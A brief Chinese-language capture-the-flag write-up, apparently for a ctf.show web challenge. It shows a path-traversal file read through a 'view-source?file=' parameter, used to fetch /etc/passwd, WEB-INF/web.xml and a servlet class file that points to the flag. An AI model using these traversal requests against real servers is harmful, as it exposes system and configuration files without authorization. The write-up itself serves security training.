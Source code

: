 <img src=".\图片\Snipaste_2023-05-31_21-08-40.png" alt="Snipaste_2023-05-31_21-08-40" style="zoom:80%;" />

这看到可以任意文件读取

```http
http://f39fd848-d043-4473-982b-7261840a80b5.challenge.ctf.show/view-source?file=../../../../../../../../../../../../etc/passwd
```

<img src=".\图片\Snipaste_2023-05-31_21-09-42.png" alt="Snipaste_2023-05-31_21-09-42" style="zoom:80%;" />

再读取 `WEB-INF/web.xml`

<img src=".\图片\Snipaste_2023-05-31_21-12-28.png" alt="Snipaste_2023-05-31_21-12-28" style="zoom:80%;" />

发现 GetFlag ，访问：

```http
http://f39fd848-d043-4473-982b-7261840a80b5.challenge.ctf.show/view-source?file=WEB-INF/classes/com/ctfshow/servlet/GetFlag.class
```

发现 fl3g，再读取

<img src=".\图片\Snipaste_2023-05-31_21-16-04.png" alt="Snipaste_2023-05-31_21-16-04" style="zoom:80%;" />
